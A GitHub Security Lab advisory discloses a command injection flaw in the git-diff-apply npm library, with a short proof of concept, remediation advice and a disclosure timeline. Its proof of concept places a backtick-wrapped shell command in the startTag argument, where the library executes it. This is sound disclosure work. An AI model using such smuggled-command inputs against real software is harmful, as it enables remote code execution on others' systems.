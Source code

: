 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">June 24, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-122: Command injection in git-diff-apply</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/kevinbackhouse">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/4358136?s=35" height="35" width="35">
        <span>Kevin Backhouse</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>The <code class="language-plaintext highlighter-rouge">diff</code> function has a command injection vulnerability. Clients of the git-diff-apply library are unlikely to be aware of this, so they might unwittingly write code that contains a vulnerability.</p>

<h2 id="product">Product</h2>
<p>git-diff-apply</p>

<h2 id="tested-version">Tested Version</h2>
<p>Commit <a href="https://github.com/kellyselden/git-diff-apply/tree/cacb51f7c1278ba156cf1ce5914ff268d97c8f1d">cacb51f</a></p>

<h2 id="details-command-injection-in-diff">Details: Command injection in <code class="language-plaintext highlighter-rouge">diff</code></h2>

<p>The following proof-of-concept illustrates the vulnerability. First, install git-diff-apply and create a simple git repo:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>npm install git-diff-apply
git init
printf "node_modules/\\npoc.js\\ntest.js\\npackage-lock.json" &gt; .gitignore
git add -A
git commit -am "initial commit"
git status # Check that git status is clean
</code></pre></div></div>

<p>Now create a file with the following contents:</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kd">var</span> <span class="nx">diff</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">"</span><span class="s2">git-diff-apply</span><span class="dl">"</span><span class="p">);</span>

<span class="nx">diff</span><span class="p">({</span><span class="dl">"</span><span class="s2">remoteUrl</span><span class="dl">"</span><span class="p">:</span> <span class="dl">"</span><span class="s2">https://github.com/kellyselden/git-diff-apply.git</span><span class="dl">"</span><span class="p">,</span> <span class="dl">"</span><span class="s2">startTag</span><span class="dl">"</span><span class="p">:</span> <span class="dl">"</span><span class="s2">none`touch /tmp/exploit`</span><span class="dl">"</span><span class="p">,</span> <span class="dl">"</span><span class="s2">endTag</span><span class="dl">"</span><span class="p">:</span> <span class="dl">"</span><span class="s2">bla</span><span class="dl">"</span><span class="p">,</span> <span class="dl">"</span><span class="s2">cwd</span><span class="dl">"</span><span class="p">:</span> <span class="dl">"</span><span class="s2">.</span><span class="dl">"</span><span class="p">})</span>
</code></pre></div></div>

<p>and run it:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>node test.js
</code></pre></div></div>

<p>Notice that a file named /tmp/exploit has been created.</p>

<p>This vulnerability is similar to command injection vulnerabilities that have been found in other Javascript libraries. Here are some examples:
<a href="https://github.com/advisories/GHSA-m8xj-5v73-3hh8">CVE-2020-7646</a>,
<a href="https://github.com/advisories/GHSA-426h-24vj-qwxf">CVE-2020-7614</a>,
<a href="https://github.com/advisories/GHSA-5q88-cjfq-g2mh">CVE-2020-7597</a>,
<a href="https://github.com/advisories/GHSA-4gp3-p7ph-x2jr">CVE-2019-10778</a>,
<a href="https://github.com/advisories/GHSA-84cm-v6jp-gjmr">CVE-2019-10776</a>,
<a href="https://github.com/advisories/GHSA-9jm3-5835-537m">CVE-2018-16462</a>,
<a href="https://github.com/advisories/GHSA-7g2w-6r25-2j7p">CVE-2018-16461</a>,
<a href="https://github.com/advisories/GHSA-cfhg-9x44-78h2">CVE-2018-16460</a>,
<a href="https://github.com/advisories/GHSA-pp57-mqmh-44h7">CVE-2018-13797</a>,
<a href="https://github.com/advisories/GHSA-c9j3-wqph-5xx9">CVE-2018-3786</a>,
<a href="https://github.com/advisories/GHSA-wjr4-2jgw-hmv8">CVE-2018-3772</a>,
<a href="https://github.com/advisories/GHSA-3pxp-6963-46r9">CVE-2018-3746</a>,
<a href="https://github.com/advisories/GHSA-jcw8-r9xm-32c6">CVE-2017-16100</a>,
<a href="https://github.com/advisories/GHSA-qh2h-chj9-jffq">CVE-2017-16042</a>.</p>

<p>We have written a <a href="https://codeql.com">CodeQL</a> query, which automatically detects this vulnerability. You can see the results of the query on the <code class="language-plaintext highlighter-rouge">git-diff-apply</code> project <a href="https://lgtm.com/query/8659005326286291860/">here</a>.</p>

<h3 id="impact">Impact</h3>

<p>This issue may lead to remote code execution if a client of the library calls the vulnerable method with untrusted input.</p>

<h3 id="remediation">Remediation</h3>

<p>We recommend not using an API that can interpret a string as a shell command. For example, use <a href="https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback"><code class="language-plaintext highlighter-rouge">child_process.execFile</code></a> instead of <a href="https://nodejs.org/api/child_process.html#child_process_child_process_exec_command_options_callback"><code class="language-plaintext highlighter-rouge">child_process.exec</code></a>.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated disclosure timeline</h2>

<p>2020-05-19: Emailed report to kellyselden@gmail.com
2020-05-19: acknowledged by kellyselden@gmail.com
2020-05-20: fixed in v0.22.9 <a href="https://github.com/kellyselden/git-diff-apply/pull/370">kellyselden/git-diff-apply#370</a></p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GitHub Engineer <a href="https://github.com/erik-krogh">@erik-krogh (Erik Krogh Kristensen)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include <code class="language-plaintext highlighter-rouge">GHSL-2020-122</code> in any communication regarding this issue.</p>

    